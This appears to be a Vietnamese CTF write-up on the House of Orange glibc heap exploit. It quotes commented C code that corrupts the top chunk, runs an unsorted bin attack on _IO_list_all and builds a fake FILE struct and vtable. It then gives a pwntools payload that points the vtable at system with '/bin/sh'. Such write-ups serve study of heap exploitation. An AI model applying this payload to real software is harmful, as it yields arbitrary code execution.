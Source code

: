 ```c 
```
- đoạn này hiểu là ta set size cho top chunk là 0x61, có 2 lý do chính
- 1 là khi top chunk có size 0x61 phù hợp với size smallbins
- 2 khi malloc(), chương trình sẽ quét qua unsorted bins và đẩy top chunk xuống smallbins , điều này làm top chunk đứng đầu list của smallbins 
- từ 1 và 2 suy ra: 

```c 
// This will give us a wrote to the fwd pointer of the value we will write to _IO_list_all (which so happens to overlap with small bin 4), since currently our only write is an unsorted bin attack
// Also this will cause it to fail a check, when it checks the size of the false fwd chunk (which will be 0), which will cause malloc_printerr to be called
```
- đến topChunk[3] = _IO_list_all - 0x10;
```c 
// In this case this chunk gets split up to serve allocation requests (which it will) the bk chunk's fwd pointer gets overwritten with the unsorted bin list
    // In other words topChunk->bk->fwd = unsorted bin list (which is a ptr to the old top chunk)

    topChunk[3] = _IO_list_all - 0x10;
``` 

```c 
// Set the write base to 2, and the write ptr to 3
    // We have to pass the check the the write ptr is greater than the write base

    fakeFp->_IO_write_base = (char *) 2;
    fakeFp->_IO_write_ptr = (char *) 3;    
```
- ở đây đơn giản set topChunk[4] = 2 (the write base) và topChunk[5] = 3 (the write ptr) 

```c 
 // Set mode to 0
    fakeFp->_mode = 0;
```
- **padding ljust(0xc0,b'\x00'** và set p64(0)

```c 
    // Next up we make our jump table
    // This is where our instruction pointer will be called
    // In here I will be setting the instruction pointer equal to the address of pwn
    // However since we have a libc infoleak, we in practice could just set it to system

    unsigned long *jmpTable = &topChunk[12];
    jmpTable[3] = (unsigned long) &pwn;
    *(unsigned long *) ((unsigned long) fakeFp + sizeof(_IO_FILE)) = (unsigned long) jmpTable;

```
- đoạn này ta set up cho fake vtable 

```python 
padding = b'\0' * 0x170

payload = b'/bin/sh\0' + p64(0x61) #180 #188
payload += p64(0xdeadbeef) + p64(io_list_all - 0x10) #190 #198
payload += p64(2) + p64(3) #d1a0 #d1a8
# payload = payload.ljust(0xc0,b'\x00') + p64(0) #238 #240
payload = payload.ljust(0xd8,b'\x00') #padding

vtable = p64(0)*3 + p64(system)

vtable_addr = heap + 0x180 + 0xe0 #260

payload += p64(vtable_addr) + vtable #258 #260
edit(0,padding + payload)
```
